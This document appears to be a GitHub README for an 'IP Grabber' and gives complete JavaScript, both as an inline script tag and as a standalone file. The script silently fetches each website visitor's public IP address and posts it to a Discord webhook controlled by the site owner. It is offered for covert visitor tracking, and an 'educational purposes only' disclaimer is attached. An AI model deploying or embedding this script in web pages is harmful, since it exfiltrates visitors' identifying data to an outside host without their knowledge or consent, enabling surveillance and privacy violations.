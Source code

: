 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script leverages JavaScript's `fetch` API to dispatch a GET request to `https://api.ipify.org`, acquiring the user's IP address. Subsequently, it dispatches a POST request to a Discord webhook URL, carrying the acquired IP address as the payload. As a result, you'll receive a notification from the bot in your Discord server each time someone visits your website, containing the visitor's Public IP address. Notably, this script represents the most concise form possible.

## Usage

Just make sure to replace **`YOUR_DISCORD_WEBHOOK`** with your actual Discord webhook URL.

If you want to implement it in the html file directly use:**
```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => {
        fetch('YOUR_DISCORD_WEBHOOK', {
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({ content: ip })
        });
    });
</script>
```
or use a seperate JavaScript file without the script tags:

```js
fetch('https://api.ipify.org')
  .then(response => response.text())
  .then(ip => {
      fetch('YOUR_DISCORD_WEBHOOK', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ content: ip })
      });
  });
```

## Disclaimer

**This script is provided for educational purposes only. Any use of this script to collect or share users' IP addresses without their consent may violate privacy laws and ethical principles. Ensure compliance with all relevant regulations and obtain proper authorization before deploying such functionality. Use at your own risk.**
